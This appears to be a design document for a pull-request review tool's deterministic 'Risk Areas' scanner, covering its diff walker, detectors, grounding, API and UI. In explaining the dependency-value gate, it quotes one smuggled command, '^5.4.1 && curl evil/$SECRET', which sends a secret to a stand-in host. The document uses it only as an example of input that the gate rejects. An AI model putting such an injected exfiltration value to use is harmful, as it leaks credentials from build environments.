

# Risk Areas

Documented against `5fd80ec` (dirty tree — this feature is implemented and
green in `server/`, `client/`, `reviewer-core/`, but not yet committed).

A deterministic, model-free scan of a PR's diff, surfaced as a `⚠ RISK AREAS`
section inside the same [Intent Layer](intent-layer.md) card on the Overview
tab. No LLM call, no persistence, no freshness key — it is recomputed from
the diff on every `GET`. It does not currently feed the review prompt (see
*Out of scope* below).

## The risk-source decision

Three detectors run in code against the raw diff instead of asking a model to
propose risks. The chosen design guarantees every reported location is real
"by construction": a ref only exists because a detector matched an actual
added line, and every ref is re-checked against the diff's real line index
before it leaves the derivation function
(`server/src/modules/reviews/risks/detectors.ts:227-246`, `groundRisks`) —
the same mechanical gate `groundFindings` applies to model-produced findings
in `reviewer-core`. This also means the Intent Layer's classifier input
(hunk headers only, never diff bodies —
`server/src/modules/reviews/intent/helpers.ts:19-57`) is left untouched;
detecting e.g. a new dependency requires reading an added line, which the
classifier is deliberately never given.

## Contracts

`server/src/vendor/shared/contracts/brief.ts`:

- `RiskKind` (`:88-89`) — `'auth_surface' | 'new_dependency' | 'performance'`,
  the three detector families below.
- `RiskRef` (`:94-99`) — `{ file, start_line, end_line }`, a structured
  location (not a display string) so the client can build a GitHub blob link
  without re-parsing a `"path:12-18"` string.
- `Risk` (`:101-108`) — `{ kind, title, explanation, severity, refs:
  RiskRef[] }`.
- `PrRisks` (`:118-127`) — the `GET /pulls/:id/risks` response:
  `{ pr_id, derived_for_sha, risks: Risk[], scanned: { files, added_lines }
  }`.

`RiskSeverity` (`:84-85`, `'high' | 'medium' | 'low'`) is the pre-existing
enum, reused unchanged. `server/src/vendor/shared/contracts/brief.ts`'s older
`Risks`/`PrBrief.risks` shape (`:110-113`, `:181-187`) is untouched and still
has zero consumers — Risk Areas does not write `pr_brief`.

## The shared diff walker

`server/src/lib/diff-lines.ts`'s `walkDiff` generator is the single re-scan
of a raw unified diff both this feature and the git adapter rely on: it
yields a `file` event per `+++ b/<path>` marker, a `hunk` event per
`@@ … @@` header, and a `line` event per add/remove/context line with its
new-side line number (`server/src/lib/diff-lines.ts:54-93`). It lives outside
`src/modules/` and `src/adapters/` specifically so a pure domain module
(`risks/helpers.ts`) and the git adapter
(`server/src/adapters/git/diff-parser.ts`) can both depend on it without
tripping the onion-architecture layering checks
(`server/src/lib/diff-lines.ts:1-20`). It replaced two independent hand-rolled
copies of this walk that only agreed by accident.

`addedLines(raw)` (`server/src/modules/reviews/risks/helpers.ts:27-38`)
filters `walkDiff` down to every added line's `{path, line, text}`, capped at
`MAX_SCAN_LINES` (20000, `server/src/modules/reviews/risks/constants.ts:107`).
`toRanges(lines)` (`server/src/modules/reviews/risks/helpers.ts:50-64`)
collapses a set of line numbers into contiguous `{start, end}` ranges.

## Detectors

All three live in `server/src/modules/reviews/risks/detectors.ts` and are
driven by `deriveRisks(diff)` (`:252-262`):

- **`auth_surface`** (`detectAuthSurface`, `:42-70`) — one aggregated `high`
  risk when any added line lives in a file whose path matches `AUTH_PATH_RE`
  (a whole path segment: `auth|authn|authz|middleware|session|token|
  permission|rbac|login|oauth|jwt`,
  `server/src/modules/reviews/risks/constants.ts:12-13`). Refs are the
  added-line ranges of those files, capped at `MAX_REFS_PER_RISK` (5).
- **`new_dependency`** (`detectNewDependencies`, `:137-184`) — one `medium`
  risk **per** dependency added to a `package.json` manifest. A key that also
  appears on a removed line of the same file is treated as a version bump,
  not a new dependency, and excluded (`removedManifestKeys`, `:90-106`). Two
  independent gates must both pass before a matched `"key": "value"` line can
  produce a risk:
  1. `DEP_VALUE_RE` (`server/src/modules/reviews/risks/constants.ts:36-37`)
     — the value must **fully** match a semver-range or package-specifier
     shape, anchored at both ends. This is the primary defence against
     `new_dependency` fabricating a row from an npm script or leaking
     arbitrary diff text into `explanation` — a value that merely *starts*
     with a valid-looking prefix (e.g. `^5.4.1 && curl evil/$SECRET`) is
     rejected because the anchor requires the whole value to match
     (`server/INSIGHTS.md`, 2026-09-20).
  2. `enclosingBlockKey` (`:119-135`) — when the hunk's visible context lines
     let it determine the surrounding JSON block, that block must be one of
     `DEP_BLOCK_KEYS` (`dependencies`, `devDependencies`, `peerDependencies`,
     `optionalDependencies`, `server/src/modules/reviews/risks/constants.ts:44-49`).
     When the block can't be determined from the visible context, the check
     falls back to gate 1 alone rather than guessing; `NON_DEP_KEYS`
     (`:57-92`) is a secondary backstop for root-level keys like `version`
     whose enclosing block is rarely visible in a small hunk.
  - `explanation` is built only from typed fields (file path, dependency
    name, version) — **never the raw matched diff line**, which could embed
    a secret.
- **`performance`** (`detectPerformance`, `:191-219`) — one `medium` risk per
  (pattern label, file) where an added line matches a `PERF_PATTERNS` entry
  (`Redis`: `new Redis(`/`createClient(`/`ioredis`; `HTTP`: `fetch(`/
  `axios.`/`got(`/`http.request(`,
  `server/src/modules/reviews/risks/constants.ts:95-98`) **and** the file's
  path matches `REQUEST_PATH_RE` (a whole path segment:
  `routes?|middleware|handlers?|controllers?|api`, `:17`) — the second
  condition keeps a one-off script or seed file from tripping the detector.

`groundRisks(risks, diff)` (`server/src/modules/reviews/risks/detectors.ts:227-246`)
reuses `buildLineIndex` from `@devdigest/reviewer-core` (exported at
`reviewer-core/src/index.ts:26`, the same index `groundFindings` builds for
model findings) to drop any ref whose `[start,end]` range doesn't intersect a
real hunk line, then drops any risk left with zero refs, capped at
`MAX_RISKS` (8). `deriveRisks` always returns `groundRisks(...)` — an
ungrounded risk can never leave the module.

## When nothing matches

An empty `risks: []` is a real answer, not an error state: the client
renders an explicit "No risk areas detected in this diff." line rather than
inventing a row (`client/src/app/repos/[repoId]/pulls/[number]/_components/IntentCard/_components/RiskAreas/RiskAreas.tsx:49-50`,
`client/messages/en/intent.json:19`). A truncated `pr_files.patch` fragment
degrades the same way — fewer added lines scanned, never a fabricated one.

## API surface

`GET /pulls/:id/risks` → `PrRisks`
(`server/src/modules/reviews/routes.ts:178-184`,
`ReviewService.getRisks`, `server/src/modules/reviews/service.ts:273-303`).
Unlike `/intent/derive`, this route carries **no rate limit** — it spends no
model money, only a `loadDiff` (a `git diff` subprocess or a `pr_files`
fallback) per call. There is no `POST`: the scan is fully deterministic and
recomputed per read, so there is nothing to explicitly trigger.

## What gets logged

`ReviewService.getRisks` logs one line per call: counts and detector names
only, never a matched line's text, a secret, or a token —
`risks: scanned <F> files / <A> added lines → <K> risk(s)
[auth_surface×1, new_dependency×2]`
(`server/src/modules/reviews/service.ts:285-295`).

## UI

`<RiskAreas>` mounts inside `<IntentCard>`, below the intent scope columns
(`client/src/app/repos/[repoId]/pulls/[number]/_components/IntentCard/IntentCard.tsx:129-131`),
reading via `usePrRisks`
(`client/src/lib/hooks/risks.ts:11-17`). Each risk renders as a bordered
`<RiskRow>`
(`client/src/app/repos/[repoId]/pulls/[number]/_components/IntentCard/_components/RiskAreas/RiskRow.tsx:34-79`):
a kind glyph (`RISK_ICON`, a local `Record<RiskKind, IconName>` so a new
detector kind fails `tsc` until it gets a glyph —
`client/src/app/repos/[repoId]/pulls/[number]/_components/IntentCard/_components/RiskAreas/constants.ts:11-15`)
tinted by severity, a bold title, the first ref as a monospace
`path:line`/`path:start-end` link (`formatRef`,
`.../RiskAreas/helpers.ts:4-8`), and a chevron that expands the
`explanation` plus any remaining refs. Expansion is per-row, held as a
`Set<string>` of `kind:title:file:line` keys in `<RiskAreas>` (never mirrored
from server data into `useState`,
`.../RiskAreas/RiskAreas.tsx:30`, `:53-65` — the composite key exists because
`performance` can emit two risks with an identical `kind`+`title` in
different files).

Each ref's GitHub blob link is built from `PrRisks.derived_for_sha` — the sha
the refs were actually grounded against — **not** the page's own `headSha`
prop, so a link can never point at lines from a commit different than the one
the scan ran against
(`.../RiskAreas/RiskAreas.tsx:22-26`, `.../RiskAreas/RiskRow.tsx:24-29`).
When `repoFullName` is `null` the ref renders as plain mono text instead of a
broken link.

## Out of scope (by design)

- Risks do not enter the reviewer prompt — flagged as a follow-up in the
  driving plan, not built in this pass.
- No schema change, no migration, no write to `pr_brief` — the risk-source
  decision above is why: `pr_brief` has no sha column, so it offers no
  freshness key, and deterministic derivation makes a cache unnecessary.
- `risk_brief` (`server/src/vendor/shared/contracts/platform.ts:58-64`) is
  in the `FEATURE_MODELS` registry but deliberately unconsumed by this
  feature — it is the seam for a possible future model-assisted pass.

## Diagram

The risk-derivation path — every ref traced from an added line, through
grounding, to the rendered row:

## Known gaps / deviations from the plan

- `server/INSIGHTS.md` (2026-09-20) records a post-implementation fix pass:
  the `new_dependency` secret-leak/fabrication hole was closed by adding the
  value-shape (`DEP_VALUE_RE`) and JSON-block gates described above; the two
  independent diff-line scanners that used to exist were unified behind the
  shared `walkDiff`; a risk-link sha mismatch (page `headSha` vs.
  `derived_for_sha`) was fixed client-side; and an ARIA gap on the
  chip/badge chrome shared with the Intent card was fixed. The version
  described in this document is the fixed one.
- Per the driving plan's user override, no new test files
  (`risks-detectors.test.ts`, `risks.it.test.ts`, `RiskAreas.test.tsx`) were
  written in this iteration — deferred to a follow-up.

## Not verified by this pass

- Rendering against a real, large diff in a running `next dev` (this pass
  read code and existing tests, not a live UI session).
